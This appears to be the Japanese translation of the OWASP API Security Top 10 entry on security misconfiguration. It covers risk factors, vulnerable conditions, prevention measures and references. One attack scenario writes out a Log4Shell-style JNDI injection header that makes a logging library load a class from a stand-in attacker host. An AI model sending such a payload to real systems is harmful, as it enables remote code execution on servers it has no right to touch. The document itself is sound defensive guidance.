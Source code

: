 # API8:2023 セキュリティの設定ミス (Security Misconfiguration)

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
| - | - | - |
| API 依存 : 悪用難易度 **容易** | 普及度 **広範** : 検出難易度 **容易** | 技術的影響 **重度** : ビジネス依存 |
| 多くの場合、攻撃者はパッチを適用していない欠陥、共通のエンドポイント、安全でないデフォルト設定で実行しているサービス、保護されていないファイルやディレクトリを見つけて、不認可のアクセスやシステムの知識を得ようとします。このほとんどは公知であり、エクスプロイトが利用できることもあります。 | セキュリティの設定ミスはネットワークレベルからアプリケーションレベルまで API スタックのどのレベルでも起こりえます。不要なサービスやレガシーオプションなどの設定ミスを検出して悪用する自動ツールを利用できます。 | セキュリティの設定ミスは機密性の高いユーザーデータだけではなく、サーバー全体の侵害につながるシステムの詳細も流出する可能性があります。 |

## その API は脆弱か？

API は以下のような場合に脆弱となる可能性があります。

* API スタックのいずれかの部分で適切なセキュリティ堅牢化が行われていない場合や、クラウドサービスで不適切に設定された権限がある場合

* 最新のセキュリティパッチが適用されていない場合や、システムが古い場合
* 不要な機能が有効である場合 (HTTP verb、ログ機能など)
* HTTP サーバーチェーン内のサーバーが受信したリクエストを処理する方法に齟齬がある場合

* Transport Layer Security (TLS) がない場合
* セキュリティディレクティブやキャッシュコントロールディレクティブがクライアントに送信されない場合
* Cross-Origin Resource Sharing (CORS) ポリシーがない場合や適切に設定されていない場合
* エラーメッセージにスタックトレースが含まれている場合や、他の機密情報を公開している場合

## 攻撃シナリオの例

### シナリオ #1

ある API バックエンドサーバーは一般的なサードパーティのオープンソースログ記録ユーティリティによって書き込まれたアクセスログを維持します。これはプレースフォルダ拡張と JNDI (Java Naming and Directory Interface) ルックアップをサポートしており、デフォルトで有効になっています。
各リクエストに対して、新しいエントリが次のパターン `<method> <api_version>/<path> - <status_code>` でログファイルに書き込まれます。




悪意のあるアクターが以下の API リクエストを発行し、それがアクセスログファイルに書き込まれます。


```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

ログ記録ユーティリティの安全でないデフォルト設定と寛容なネットワークアウトバウンドポリシーにより、アクセスログに当該エントリを書き込むために、`X-Api-Version` リクエストヘッダの値を展開して、このログ記録ユーティリティは攻撃者のリモートコントロールサーバーから `Malicious.class` を取得して実行するでしょう。





### シナリオ #2

あるソーシャルネットワークウェブサイトではユーザーがプライベートな会話を続けることができる「ダイレクトメッセージ」機能を提供しています。
特定の会話の新しいメッセージを取得するために、ウェブサイトは以下の API リクエストを発行します (ユーザーによる操作は必要ありません) 。



```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

この API レスポンスには `Cache-Control` HTTP レスポンスヘッダが含まれていないため、プライベートな会話は最終的にウェブブラウザにキャッシュされ、悪意のあるアクターはファイルシステム内のブラウザキャッシュファイルからその会話を取得できます。




## 防止方法

API ライフサイクルには以下を含めます。

* 適切にロックダウンした環境を迅速かつ容易なデプロイメントにつながる反復可能な堅牢化プロセス

* API スタック全体の設定をレビューして更新するタスク。レビューにはオーケストレーションファイル、API コンポーネント、クラウドサービス (S3 バケットのパーミッションなど) を含めます。


* すべての環境における構成と設定の有効性を継続的に評価する自動化されたプロセス


さらに

* クライアントから API サーバーおよびあらゆるダウンストリームコンポーネントおよびアップストリームコンポーネントへのすべての API 通信は、内部 API であるか外部公開 API であるかに関わらず、暗号化された通信チャネル (TLS) で行うようにします。


* 各 API にアクセスできる HTTP verb を特定します。それ以外の HTTP verb (HEAD など) はすべて無効にします。

* ブラウザベースのクライアント (ウェブアプリのフロントエンドなど) からアクセスされることが予想される API は少なくとも以下のことを行う必要があります。

  * 適切な Cross-Origin Resource Sharing (CORS) ポリシーを実装します
  * 適用可能なセキュリティヘッダを含めます
* 受信するコンテンツタイプやデータフォーマットをビジネス要件や機能要件を満たすものに制限します。

* HTTP サーバーチェーンのすべてのサーバー (ロードバランサ、リバースプロキシ、フォワードプロキシ、バックエンドサーバなど) が受信リクエストを均一な方法で処理して、非同期問題を回避するようにします。


* 適用可能であれば、エラーレスポンスを含むすべての API レスポンスペイロードスキーマを定義して適用し、例外トレースやその他の価値ある情報が攻撃者に送り返されることを防ぎます。



## 参考資料

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### その他

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')][10]

* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
